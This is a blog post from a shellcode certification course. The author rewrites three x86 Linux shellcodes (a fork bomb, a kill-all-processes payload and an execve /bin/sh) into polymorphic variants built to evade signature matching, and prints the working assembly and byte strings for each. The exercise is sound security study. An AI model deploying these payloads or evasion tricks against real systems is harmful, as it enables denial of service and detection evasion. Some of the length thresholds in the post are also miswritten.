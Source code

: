 ```yaml
---
layout: single
title: Polymorphic Shellcodes- SLAE32 Sixth Exam Assignment
date: 2020-7-04
classes: wide
header:
  teaser: /images/polymorph.jpg
tags:
  -SLAE
--- 
```


## Introduction
Hello Everyone!
This blog post is dedicated to Assignment 6 of the SLAE32 Exam, which is to create 3 different polymorphic shellcodes from shell-storm.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/polymorph.jpg">
</p>

## Assignment 6 - Creating polymorphic shellcodes from Shell-Storm


There are 2 main instructions provided to us in this assignment:
- [ ] Pick 3 shellcode samples from Shell-Storm and create polymorphic versions of them to beat pattern matching
- [ ] The polymorphic version cannot be larger than 150% of the existing shellcode

The 3 payloads which i have decided to focus on are:

- [ ] x86/forkbomb
- [ ] x86/killps
- [ ] x86/execve_bin/sh 

## forkbomb Shellcode

In computing, a fork bomb is a denial-of-service attack wherein a process continually replicates itself to deplete available system resources, slowing down or crashing the system due to resource starvation.

![forkbomb](/images/forkbomb.png)

The original shellcode length is 7 bytes, and is presented below:

```c
"\x6a\x02\x58\xcd\x80\xeb\xf9"
```

The original forkbomb.nasm code:

```c
/* By Kris Katterjohn 8/29/2006
 *
 * 7 byte shellcode for a forkbomb
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *      push byte 2
 *      pop eax
 *      int 0x80
 *      jmp short _start
 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	xor eax, eax
	inc eax
	inc eax
        push eax
   	pop eax
      	int 0x80
        jmp short _start
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=11)

The new shellcode:
```c
\x31\xc0\x40\x40\x50\x58\xcd\x80\xeb\xf6
```

Which is as we can see 10 bytes long, now let's check if the fork bomb still work's properly.

![polyfork](/images/polyfork.png)

And it is indeed working! we can see how the CPU is being flooded to 100% usage!

## killps Shellcode

The following shellcode will kill all running process within the system.

The original shellcode length is 11 bytes, and is presented below:

```c
 "\x31\xc0\xb0\x25\x6a\xff\x5b\xb1\x09\xcd\x80" 
```

The original killps.nasm code:

```c
Title  : kill all running process 
Name   : 11 bytes sys_kill(-1,9) x86 linux shellcode
Date   : may, 31 2010
Author : gunslinger_
Web    : devilzc0de.com
blog   : gunslingerc0de.wordpress.com
tested on : ubuntu linux
*/
#include <stdio.h>

char *killer=
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x25"                    /* mov    $0x25,%al */
 "\x6a\xff"                    /* push   $0xffffffff */
 "\x5b"                        /* pop    %ebx */
 "\xb1\x09"                    /* mov    $0x9,%cl */
 "\xcd\x80"                    /* int    $0x80 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	sub eax, eax
	mov al, 0x23
	inc al
	inc al
	push 0xffffffff
	pop ebx
	mov cl, 0x9
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
"\x29\xc0\xb0\x23\xfe\xc0\xfe\xc0\x6a\xff\x5b\xb1\x09\xcd\x80"
```

Which is as we can see 15 bytes long, now let's check if the killps shellcode still work's properly.

![killps](/images/killps.gif)

And it is indeed working! we can see how we are being kicked out frm the system

## execve /bin/sh

The following shellcode will execbute /bin/sh.

The original shellcode length is 23 bytes, and is presented below:

```c
 ""\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; 
```

The original execve.nasm code:

```c
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```

I have decided to change the code to the following:

```c
global _start

section .text

_start:
	sub eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	inc eax
	dec eax
	push eax
	push ebx
	mov ecx, esp
	mov al, 0xa
	inc al
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
""\x29\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x40\x48\x50\x53\x89\xe1\xb0\x0a\xfe\xc0\xcd\x80""
```

Which is as we can see 27 bytes long, now let's check if the execve shellcode still work's properly.

![27execve](/images/27execve.png)

And it is indeed working! we can see how we are executing the /bin/sh!

And that's it for the sixth assignment!

## References

* forkbomb explanation - 
* forkbomb - <https://en.wikipedia.org/wiki/Fork_bomb>
* killps - <http://shell-storm.org/shellcode/files/shellcode-626.php>
* execve_bin/sh - <http://shell-storm.org/shellcode/files/shellcode-827.php>

## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543

All the source code which i have used throughout the assignment is available here: <https://github.com/NagliNagli/SLAE/tree/master/Polymorphic>

Cheers,
Gal.
